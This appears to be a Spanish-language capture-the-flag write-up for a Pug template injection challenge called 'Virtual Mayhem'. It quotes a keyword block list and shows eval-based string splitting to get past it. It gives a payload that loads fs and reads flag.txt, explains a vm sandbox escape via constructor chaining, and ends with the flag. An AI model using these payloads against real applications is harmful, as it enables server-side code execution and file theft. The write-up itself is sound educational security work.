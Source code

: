 # Virtual Mayhem

Podemos insertar plantillas de PugJs y renderizarlas en la pagina, pero existen restricciones

No se pueden usar las siguientes expresiones regulares:

``` javascript
function sanitizeTemplate(template) {
  const forbiddenPatterns = [
    /require/i,
    /process/i,
    /Function/i,
    /global/i,
    /mainModule/i,
    /\bfs\b/i
  ];

  for (const pattern of forbiddenPatterns) {
    if (pattern.test(template)) {
      throw new Error('Forbidden keyword or pattern detected in template.');
    }
  }
```

Esto se puede esquivar separando las palabras y luego agregando el string a un eval

Por ejemplo, se pueden cargar nuevos modulos dinamicamente usando `global.process.mainModule.require('module')`, normalmente en PugJs una variable para el modulo se veria asi:

``` pugjs
- const fsModule = global.process.mainModule.require('fs')
```

Pero debido a que no podemos escrbir 'fs' ni 'mainModule' ni 'global' ni 'process' debemos separarlos y ejecutarlos con un eval:

``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
```

Con eso podriamos leer la flag y mostrarla en pantalla:
``` pugjs
- const fm = eval("glb.proc" + "ess.mainMo" + "dule.requi"+ "re('f" + "s')")
- const flag = fm.readFileSync('./flag.txt','utf-8')
.p #{flag}
```

Pero no funciona porque la plantilla es ejecutada en una maquina virtual, sin acceso al entorno global:
``` javascript
    const compiledTemplate = pug.compile(userTemplate);
    const vm = new VM({ timeout: 1000, sandbox: { username: "Player" } });
    const output = vm.run(`\`${compiledTemplate({})}\``);
```

- En el contexto de la VM, this normalmente apunta al objeto sandbox proporcionado ({username: "Player"})
- Object.getPrototypeOf(this) obtiene el prototipo del sandbox
- sandboxPrototype.constructor obtiene el constructor del objeto (normalmente Object)
- sandbox.Prototype.constructor.constructor obtiene el constructor del constructor (normalmente Function)
- sandbox.Prototype.constructor.constructor('return this')() Ejecuta la funcion y devuelve this
- `Cuando una función se llama en modo no estricto, su this apunta al objeto global`

Y con eso tenemos acceso a `global`

![2025-03-22-151832_780x488_scrot](https://github.com/user-attachments/assets/d69bc16f-a7c1-4fae-9bd9-e70ee914d97e)

![2025-03-22-151842_766x545_scrot](https://github.com/user-attachments/assets/ddb44833-a944-4724-9395-360d30455f5e)

`MetaCTF{m4st3r1ng_pug_s4ndb0x_3sc4p3}`
